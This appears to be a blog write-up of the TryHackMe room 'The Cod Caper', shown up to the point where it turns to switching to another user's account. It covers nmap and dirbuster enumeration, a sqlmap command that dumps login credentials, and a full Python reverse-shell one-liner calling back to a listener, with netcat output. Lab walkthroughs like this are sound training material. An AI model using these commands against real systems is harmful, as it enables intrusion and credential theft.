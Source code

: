 ```yaml
---
title: The Cod Caper | TryHackMe
author:
  name: iamiqbal
  link: https://twitter.com/mib47225
date: 2022-08-04 11:00:00
categories: [THM, BinaryExploitation]
tags: [pwn, pwntools, Reversing, security]
---
```


Hey there! This is my first writeup in which I'll be walking you through infiltrating and exploiting a Linux system. This writeup will be a bit longer as it covers binary exploitation as well.

## Task 1: **Intro**

___

> Note: This room expects some basic pen testing knowledge, as I will not be going over every tool in detail that is used. While you can just use the room to follow through, some interest or experiencing in assembly is highly recommended

## Task 2: **Host Enumeration**
___

I'll use **nmap** for scanning the host for open ports and services running on these ports.

```bash
nmap -sC -sV [Target IP]

Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-04 15:22 EDT
Nmap scan report for <IP>
Host is up (0.52s latency).
Not shown: <N> closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
<Redacted>
```

## Task 3: **Web Enumeration**
___
Now that we know what ports are open, we can further enumerate and use **dirbuster** for directory busting. We are already provided the wordlist big.txt

```bash
dibuster&
```
![dirbuster](/assets/img/THM/The_Cod_Caper/1.png)

dirbuster has returned the name of the important file on the server.

## Task 4: **Web Exploitation**
___
Once we visit the page that we got through directory busting, we see that it is a login form.

![login form](/assets/img/THM/The_Cod_Caper/2.png)

We can use burpsuite but we are not provided any wordlist for doing a bruteforce attack. Instead we can check for possible sql injection which will output the username and password for us to login.

```bash
sqlmap -u http://[IP]/[Login Page] --forms --dump
```
Let sqlmap do its job. Once it is done you can answer questions of this task.

## Task 5: **Command Execution**
___
When we login, we are presented with a text box. In this text box we can enter commands and it'll execute it for us and show us the output.

For example running ```whoami``` gives us the following output:
![whoami](/assets/img/THM/The_Cod_Caper/3.png)

If we can run ```whoami```, we can get a reverse shell as well. SMART Right! Let's do this.

Copy the following python code and paste it in the text box. REMEMBER to change the IP to your IP address.

```python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'```

Also listen for incoming connections through netcat before executing the command pasted inside text box.

```bash
nc -lvnp 4242
```

This should give you a reverse shell

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 5555             
listening on [any] 5555 ...
connect to [10.0.0.1] from (UNKNOWN) [10.10.154.134] 34572
$ whoami
whoami
www-data
$ 
```

We got a reverse shell, What's next? Well... We have to switch to **pingu's** account but how? 